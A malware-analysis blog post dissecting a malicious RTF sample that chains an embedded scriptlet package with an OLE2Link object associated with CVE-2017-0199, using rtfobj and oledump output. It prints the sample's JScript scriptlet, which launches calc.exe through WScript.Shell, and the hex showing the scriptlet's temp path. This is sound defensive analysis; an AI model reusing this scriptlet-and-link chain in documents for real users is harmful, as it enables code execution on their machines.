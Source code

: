 +++
author = "Brian Stadnicki"
title = "Embedded objects in OLE & OLE2 using links"
date = "2021-12-03"
categories = [ "malware analysis" ]
tags = [ "reverse engineering", "malware", "word", "rtf", "ole", "ole2" ]
+++

![Preview](/posts/malware-ole-ole2-embed-links/preview.png)

.docx and .doc documents can contain embedded objects through a variety of methods, here we look at a sample using OLE linking and embedding.

Sample obtained from [any.run](https://app.any.run/tasks/0e904df7-aced-4309-a172-dcf85d463b6e/)

Property              | Value
----------------------|---------------------------------------------------
File Type             | Rich Text Format
File Size             | 8.00 KB
FileTitle             | OriginalRTF.bak.rtf
MD5                   | 00f576ddeaf60756bfe671858434931c
SHA1                  | 44c0d585482755dd945cea10458b82ca6cb620ff
SHA256                | 23c8f0fb9912538eee0bde49b2007e7e0f4efbd8bca69ddb9c05fafcee6f03ab

## Initial static analysis

```
{\rt{\object\objemb\objw1\objh1{\*\objclass Package}{\*\objdata 01050000020000000800...
}}{\object\objautlink\objupdate{\*\objclass Word.Document.8}{\*\objdata 01050...
```

You can see `Word.Document.8` being used to embed a word document object. You can read up on how objects are embedded in RTF documents and OLE Exploits on the [McAfee blog](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/an-inside-look-into-microsoft-rich-text-format-and-ole-exploits/)

## Extracting the word document 

Initially I tried to use [rtfobj](https://github.com/decalage2/oletools/wiki/rtfobj), but I ran up against [issue 712](https://github.com/decalage2/oletools/issues/712), but there's a fix from [zdiff](https://github.com/zdiff/oletools/tree/bugfix/538).

The following were extracted from the .rtf:

```
---+----------+---------------------------------------------------------------
id |index     |OLE Object                                                     
---+----------+---------------------------------------------------------------
0  |0000003Fh |format_id: 2 (Embedded)                                        
   |          |class name: b'Package'                                         
   |          |data size: 619                                                 
   |          |OLE Package object:                                            
   |          |Filename: 'QNV32ZJJYHRAJI9.sct'                                
   |          |Source path: 'C:\\fakepath\\QNV32ZJJYHRAJI9.sct'               
   |          |Temp path = 'C:\\fakepath\\QNV32ZJJYHRAJI9.sct'                
   |          |MD5 = '4c8ef666ff36eb0780dc4cfa7941a7de'                       
   |          |EXECUTABLE FILE                                                
---+----------+---------------------------------------------------------------
1  |000005ADh |format_id: 2 (Embedded)                                        
   |          |class name: b'OLE2Link'                                        
   |          |data size: 2560                                                
   |          |MD5 = 'ca72599a87f0d00eacd954ce96390459'                       
   |          |CLSID: 00000300-0000-0000-C000-000000000046                    
   |          |StdOleLink (embedded OLE object - Known Related to             
   |          |CVE-2017-0199, CVE-2017-8570, CVE-2017-8759 or CVE-2018-8174)  
   |          |Possibly an exploit for the OLE2Link vulnerability (VU#921560, 
   |          |CVE-2017-0199)                                                 
---+----------+---------------------------------------------------------------
```

### embedded QNV32ZJJYHRAJI9.sct

This `.sct` scriptlet simply runs `calc.exe`.

```js
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
```

### embedded OLE object

This is a OLE object, specifically a `Word.Document.8`, which is the Word 97 version. To analyse this older document type, use [oledump](https://blog.didierstevens.com/programs/oledump-py/).

```bash
$ python3 oledump.py OriginalRTF.bak.rtf_object_000005AD.bin'
  1:       256 '\x01Ole'
  2:       183 '\x03LinkInfo'
  3:         6 '\x03ObjInfo'
b$ python3 oledump.py -s1 OriginalRTF.bak.rtf_object_000005AD.bin
00000000: 01 00 00 02 09 00 00 00  01 00 00 00 00 00 00 00  ................
00000010: 00 00 00 00 00 00 00 00  C0 00 00 00 09 03 00 00  ................
00000020: 00 00 00 00 C0 00 00 00  00 00 00 46 02 00 00 00  ...........F....
00000030: 03 03 00 00 00 00 00 00  C0 00 00 00 00 00 00 46  ...............F
00000040: 00 00 1A 00 00 00 25 54  4D 50 25 5C 51 4E 56 33  ......%TMP%\QNV3
00000050: 32 5A 4A 4A 59 48 52 41  4A 49 39 2E 73 63 74 00  2ZJJYHRAJI9.sct.
00000060: 0E 00 AD DE 00 00 00 00  00 00 00 00 00 00 00 00  ................
00000070: 00 00 00 00 00 00 00 00  38 00 00 00 32 00 00 00  ........8...2...
00000080: 03 00 25 00 54 00 4D 00  50 00 25 00 5C 00 51 00  ..%.T.M.P.%.\.Q.
00000090: 4E 00 56 00 33 00 32 00  5A 00 4A 00 4A 00 59 00  N.V.3.2.Z.J.J.Y.
000000A0: 48 00 52 00 41 00 4A 00  49 00 39 00 2E 00 73 00  H.R.A.J.I.9...s.
000000B0: 63 00 74 00 C6 AF AB EC  19 7F D2 11 97 8E 00 00  c.t.............
000000C0: F8 75 7E 2A 00 00 00 00  00 00 00 00 00 00 00 00  .u~*............
000000D0: 00 00 00 00 00 00 00 00  00 00 00 00 FF FF FF FF  ................
000000E0: 06 09 02 00 00 00 00 00  C0 00 00 00 00 00 00 46  ...............F
000000F0: 00 00 00 00 FF FF FF FF  00 00 00 00 00 00 00 00  ................
$ python3 oledump.py -s2 OriginalRTF.bak.rtf_object_000005AD.bin
## Bunch of 0s
$ python3 oledump.py -s3 OriginalRTF.bak.rtf_object_000005AD.bin
00000000: 90 66 60 A6 37 B5                                 .f`.7.
```

This just runs the scriptlet from earlier.
